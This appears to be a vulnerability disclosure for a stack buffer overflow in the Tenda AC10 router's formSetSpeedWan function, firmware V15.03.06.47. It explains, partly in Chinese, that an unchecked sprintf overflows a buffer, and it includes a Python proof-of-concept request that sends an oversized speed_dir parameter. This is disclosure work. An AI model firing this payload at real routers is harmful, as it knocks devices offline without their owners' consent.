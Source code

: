 

# Information

**Vendor of the products:**   Tenda

**Vendor's website:** [首页_腾达(Tenda)官方网站](https://www.tenda.com.cn/)

**Reported by:  **GuoHengyu(2183056014@qq.com)

**Affected products:** AC10 

**Affected firmware version:**  V15.03.06.47

**Firmware download address:** https://down.tendacn.com/uploadfile/AC10/US_AC10V1.0re_V15.03.06.47_multi_TDE.zip

# Overview

A buffer overflow vulnerability exists in the `formSetSpeedWan` function of the Tenda AC10 router. By sending a crafted HTTP request with a malicious `speed_dir` parameter, a remote attacker can trigger a stack overflow that leads to a segmentation fault. This may result in denial-of-service (DoS) or potentially allow further exploitation.



# Vulnerability details



![image-20250527203534943](3/image-20250527203534943.png)

在Tenda AC10的V15.03.06.47固件的`formSetSpeedWan`函数存在缓冲区溢出漏洞。

![image-20250527203605025](3/image-20250527203605025.png)



程序未对speed_dir参数进行适当的边界检查，使用了

`  sprintf(ret_buf, "{\"errCode\":%d,\"speed_dir\":%s}", 1, speed_dir);` 

如果提供了长度超过 0x30 字节的 `speed_dir` 参数,将溢出目标缓冲区 `ret_buf` ，可能会导致段错误。远程攻击者可以利用此问题导致服务拒绝或可能实现任意代码执行。

# POC

```python
import requests


url = "http://192.168.2.131/goform/SetSpeedWan"
params = {
    "speed_dir": "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
}
headers = {
    "Host": "192.168.2.131",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:138.0) Gecko/20100101 Firefox/138.0",
    "Accept": "text/plain, */*; q=0.01",
    "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
    "Accept-Encoding": "gzip, deflate, br",
    "X-Requested-With": "XMLHttpRequest",
    "Connection": "keep-alive",
    "Referer": "http://192.168.2.131/main.html",
    "Cookie": "password=jubmji; bLanguage=zh",
    "Priority": "u=0"
}

response = requests.get(url, params=params, headers=headers)
response = requests.get(url, params=params, headers=headers)
    
```

![image-20250527194554593](3/image-20250527194554593.png)

